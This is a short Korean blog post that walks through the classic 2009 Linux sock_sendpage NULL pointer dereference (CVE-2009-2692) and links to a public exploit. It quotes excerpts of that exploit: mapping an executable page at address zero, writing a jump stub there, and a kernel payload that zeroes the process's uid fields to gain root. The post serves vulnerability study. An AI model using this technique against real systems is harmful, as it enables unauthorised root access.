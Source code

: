 ```yaml
---
layout: post
title: "sock_sendpage"
date: 2016-01-11 14:42:27 +0900
comments: true
categories: 
---
```


CVE-2009-2692, sock_sendpage 에서 벌어지는 NULL pointer deref 버그를 정리한다. 발견자가 Tarvis Ormandy 인지 Brad Spengler 인지는 이런저런 문서를 읽어봐도 잘 모르겠다.

Exploit 자체는 꽤 클래식해서 정리해놓을 가치가 있다고 생각한다.

[exploit.c](http://http://downloads.securityfocus.com/vulnerabilities/exploits/36038-5.c)

#### Exploit

'''
	...
	if ((zero_page = mmap(0x00000000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE,0,0)) == MAP_FAILED) {
		...
	}
'''

0x0 에 4096 bytes 짜리 메모리 페이지를 할당한다.

그리고, payload 를 담고있는 변수의 주소를 0x00000002,0x3,0x4,0x5 에 깐다.

'''
	*(char *)0x00000000 = 0xff;
	*(char *)0x00000001 = 0x25;
	*(unsigned long *)0x00000002 = (unsigned long)&kernel;
	*(char *)0x00000006 = 0xc3;
'''

버그가 trigger 되면 `fp = *(unsigned long)(*(unsigned long)((0x00000000)->0x2)); (*fp)();` 하는 모양.

Kernel priv. 로 돌아가는 페이로드는 다음과 같다. cred structure 에서 uid 들을 고치는 페이로드.

```
	while (pcb_task_struct) {
		if (pcb_task_struct[0] == uid && pcb_task_struct[1] == uid &&
			pcb_task_struct[2] == uid & pcb_task_struct[3] == uid &&
			...) {
			pcb_task_struct[0] = [1] = ... = [7] = 0;
			break;
		}	
		pcb_task_struct++;
	}
```

그렇다면 왜 NULL porinter 를 deref 하게 되는지는 너무 오래된 버그라서 큰 의미는 없을 것 같다.

